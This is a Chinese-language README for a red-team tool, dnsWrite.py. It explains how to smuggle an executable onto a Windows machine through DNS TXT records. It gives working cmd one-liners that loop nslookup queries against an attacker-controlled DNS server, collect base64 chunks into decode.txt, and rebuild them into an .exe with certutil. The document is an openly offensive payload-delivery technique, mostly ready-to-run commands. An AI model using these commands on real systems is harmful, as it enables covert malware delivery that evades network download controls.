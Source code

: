 # 原理
利用dns的TXT记录，先把要写入的文件base64编码，然后把文件先切割为32kb的数组列表: L1, L2....，再将每个元素切割为长度为254的列表，将此作为txt记录返回。

## 0x1. 文件托管
```bash
python dnsWrite.py <calc.exe>
```

## 0x2. 写入文件
利用域名的Txt解析，从baidu0.com开始解析：`baidu0.com、baidu1.com ...`，客户端输入以下命令，一直到服务端出现Done, Press Ctrl + C to Exit，表示发送完毕。客户端再利用`certutil -decode decode.txt calc.exe`转码为exe文件:

```cmd
cmd /v:on /Q /c "set a= && set b=  && for /f "tokens=*" %i in ('nslookup -qt^=TXT baidu0.com 192.168.2.3 ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)" >> decode.txt 

cmd /v:on /Q /c "set a= && set b=  && for /f "tokens=*" %i in ('nslookup -qt^=TXT baidu1.com 192.168.2.3 ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)" >> decode.txt 

...
```

如果文件特别大，可以再加一层for循环，下面是循环了20次请求域名的解析，注意观察服务端是否发送完成，当服务端发送完成就可以断开了，由于循环还在继续:
```cmd
cmd /v:on /Q /c "for /l %i in (0,1,20) do (set a= && set b= && for /f "tokens=*" %j in ('nslookup -qt^=TXT baidu%i.com 192.168.2.3 ^| findstr "exec"') do (set a=%j && echo !a:~5,-2! >> decode.txt))"
```

脚本已经计算好了循环次数，客户端直接使用即可:

![image](https://user-images.githubusercontent.com/2935865/229475619-7102660f-af8d-4d4f-a7a2-dcf1c88a3374.png)


## 0x3. 参考文章
* [远程下载的通用替代方案 ｜ 红队攻防](https://mp.weixin.qq.com/s/Z1zp7klk--uQ1OnzljNESw)
